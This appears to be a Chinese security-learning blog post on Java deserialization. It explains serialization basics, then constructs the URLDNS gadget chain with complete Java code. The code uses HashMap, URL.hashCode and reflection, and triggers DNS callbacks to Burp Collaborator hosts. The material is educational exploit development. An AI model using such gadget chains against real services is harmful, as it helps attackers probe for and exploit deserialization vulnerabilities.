

在我们有php反序列化基础的前提下，学习会轻松很多
Java反序列化是将字节流转换为对象的过程，它是序列化的逆过程。序列化是将对象转换为字节流，以便可以将其保存到磁盘上或在网络上进行传输
首先需要知道关于Java反序列化的一些基础知识：
- ObjectInputStream类：Java提供了ObjectInputStream类来实现反序列化。这个类包含了readObject()方法，该方法可以将字节流转换回一个Java对象。
- Serializable接口：在Java中，如果一个类的对象需要被序列化，那么这个类就需要实现Serializable接口。这个接口没有任何方法，它只是一个标识接口，用来表明一个类的对象可以被序列化和反序列化。
- transient关键字：如果你不希望类的某个字段被序列化，可以使用transient关键字标记它。被标记为transient的字段不会被序列化，因此在反序列化过程中，这些字段的值将被设为默认值，而不是被保存的值。
序列化基本上有一个固定的模板，复制粘贴即可，不愧是学web的
我们现在给上文的shop加上Serializable接口试一下
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
| import java.io.Serializable;
public class shop implements Serializable {
public String food;
private int man;
public shop(){
}
public shop(String food, int man){
this.food = food;
this.man = man;
}
public void action(String act) {
System.out.println(act);
}
@Override
public String toString(){
return "shop{" +
"food='" + food + '\'' +
", man=" + man +
'}';
}
}
|
首先将实例化对象序列化
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutput;
import java.io.ObjectOutputStream;
public class seseTest {
public static void serialize(Object obj) throws IOException{
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static void main(String[] args) throws Exception{
shop shopper = new shop("bread",1);
System.out.println(shopper);
serialize(shopper);
}
}
|
然后执行反序列化程序
1
2
3
4
5
6
7
8
9
10
11
12
| public class unseTest {
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject();
return obj;
}
public static void main(String[] args) throws Exception{
shop shopper = (shop)unserialize("ser.bin");
System.out.println(shopper);
}
}
|

可以看到序列化的字符串成功传递了对象
反序列化引发的安全问题

URLDNS
构造一个简单的反序列化利用链-URLDNS
首先找到java原生类URLstreamHandler里面存在一个可以发起DNS请求的功能

只需要向URLstreamHandler的hashcode里面传一个url就会发起dns请求
查看谁调用了这个hashcode，发现是URL类的hashcode

说明需要发起dns请求，只需调用url的hashcode方法就行了，我们构造以下代码，利用burp来接受dns请求
1
2
| URL url =new URL("http://e0f6pw6i1wgw47y317y46zzgj7pxdm.burpcollaborator.net");
url.hashCode();
|
成功接收

下一步是找到一个什么类有调用另一个类的hashcode的功能
这里不卖关子了，发现HashMap类的hash方法调用了key.hashCode() ，并且这个key是可控制的

继续跟进发现本类里的readObject 方法调用了hash ，同时这个类也有Serializable 接口，这无疑是我们想要找的完美入口类

于是我们进一步改进代码，注意遵循各个函数和方法的构造规则，可以使用put给hashmap的K、V赋值，但里面只需使用到key的值，所以第二个value随便填就好
1
2
3
4
5
6
7
| public class URLDNS {
public static void main(String[] args) throws Exception{
HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
URL url =new URL("http://r80jx9ev99o9ck6g9k6hec7trkxbl0.burpcollaborator.net");
hashmap.put(url,0);
|
成功接收

但是这里出现了一个问题，就是在还没执行反序列化的时候，就已经出现了dns请求，这是因为URL的hashcode里面有一个判定，如果hashcode为-1就直接执行了，而hashcode的初始值就是-1
所以实际上，在执行put的时候，就会调用hash了


所以我们要找一个方法，在他在put的时候让hashcode≠-1，put之后改回-1，就可以正常执行反序列化操作了
这个问题很简单，只需要反射修改就行了，用我们上篇学到的知识，轻松写出payload
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
| import java.io.*;
import java.util.HashMap;
import java.net.URL;
import java.lang.reflect.Field;
public class URLDNS {
public static void main(String[] args) throws Exception{
URL url =new URL("http://");
HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
Class c = url.getClass();
Field hashcodefield = c.getDeclaredField("hashCode");
hashcodefield.setAccessible(true);
hashcodefield.set(url,0);
hashmap.put(url,0);
hashcodefield.set(url,-1);
serialize(hashmap);
unserialize("ser.bin");
}
public static void serialize(Object obj) throws IOException {
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(obj);
}
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject();
return obj;
}
}
|
运行的时候先注释unserialize ，burp并没有收到请求
然后再unserialize ，运行成功了

至此我们成功完成了URLDNS链的构造
总结
接下来总结一下反序列化攻击的过程
找到一个入口类：重写了readObject，能够调用函数，同时有反序列化接口，最好是jdk自带的，这样可以在反序列化的时候自动执行开始调用
调用链(Gadget chain):层层调用
**执行类(Sink)**：能够执行危险函数的类（rce ssrf 写文件等等）
学会了这个链，其他的基本上也是换汤不换药，无非就是寻找调用的过程繁琐了一点